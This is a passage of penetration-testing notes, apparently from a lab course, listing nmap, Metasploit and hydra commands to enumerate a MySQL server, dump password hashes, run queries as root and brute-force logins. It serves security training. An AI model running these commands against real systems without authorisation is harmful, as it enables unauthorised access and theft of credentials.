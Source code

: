 > The command attempts to enumerate MySQL user accounts by connecting to the MySQL service on port 3306 of the target host using the provided credentials.

```Shell
nmap --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" -p 3306 <ip-address>
```

> The command attempts to list all the MySQL databases on the target host by connecting to the MySQL service running on port 3306 using the provided credentials.

```Shell
nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p 3306 <ip-address>
```

> The command retrieves and displays MySQL server variables and settings by connecting to the MySQL service on port 3306 of the target host using the provided credentials. These variables include configuration options, server status, and environment settings.

```Shell
nmap --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" -p 3306 <ip-address>
```

> The command audits the MySQL server's security settings on port 3306 of the target host by comparing them against a predefined benchmark using the provided credentials.

```Shell
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 <ip-address>
```

> The command attempts to dump MySQL password hashes from the server on port 3306 using the provided credentials (`root` with an empty password).

```Shell
nmap --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''" -p 3306 <ip-address>
```

> The command executes the SQL query `SELECT COUNT(*) FROM books.authors;` on the MySQL server at `demo.ine.local` using the provided credentials (`root` with an empty password).

```msfconsole
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip-address>
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true
exploit
```

> Password brute forcing using metasploit

```Shell
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip-address> mysql
```

> Brute force using hydra.

```Shell
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <ip-address>
```
